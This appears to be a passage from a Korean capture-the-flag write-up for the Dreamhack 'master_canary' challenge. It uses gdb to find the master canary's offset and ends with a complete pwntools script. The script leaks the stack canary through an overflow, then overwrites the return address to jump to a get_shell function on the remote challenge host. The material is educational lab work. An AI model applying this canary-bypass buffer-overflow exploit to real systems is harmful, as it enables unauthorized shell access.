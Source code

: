  <br>
 
<img width="1277" height="1092" alt="image (14)" src="https://github.com/user-attachments/assets/bd56ff62-3b3f-4f85-a2b6-677640f181c6" />

꽤 많이 내려왔는데도 없다.   

더 쭉 내려가주니,   

<br>


<img width="1331" height="796" alt="image (15)" src="https://github.com/user-attachments/assets/2ecf91fb-e1ad-47d0-88a1-de47cbf5321e" />

이렇게 찾아냈다.   
여기까지 거리를 구하고 저기 있는 값을 읽어내보자.   

`0x7c3611511720`를 기준으로 빼고, 8바이트를 더하면 카나리 8바이트 위치가 나올것이다.   

```bash
(gdb) print 0x7c3611511720 - 0x00007c3611510e40
$1 = 2272
```

2272 바이트라는 값이 나왔으니, 2272 바이트 + 8바이트 떨어져있는 곳에 카나리가 있는 것을 알아냈다.   

이제 코드를 수정해보면,   

<br>

**익스플로잇 코드 (최종)**

```python
from pwn import *

#p = process('./master_canary')
p = remote('host8.dreamhack.games', 16130)
e = ELF('./master_canary')

getshell_addr = e.symbols['get_shell']

p.sendlineafter(b'> ', b'1')

p.sendlineafter(b'> ', b'2')
p.sendlineafter(b'Size: ', b'2281')
p.recvuntil(b'Data: ')

payload = b'A'*2280 + b'B'
p.send(payload)

p.recvuntil(b'B')
leaked = p.recv(7)
canary = u64(b'\x00' + leaked)

print('getshell addr : ',hex(getshell_addr))
print('canary : ', hex(canary))

p.sendlineafter(b'> ', b'3')

payload2 = b'A'*40
payload2 += p64(canary)
payload2 += b'B'*8
payload2 += p64(getshell_addr)

p.sendlineafter(b'comment: ', payload2)

p.interactive()
```
<br>
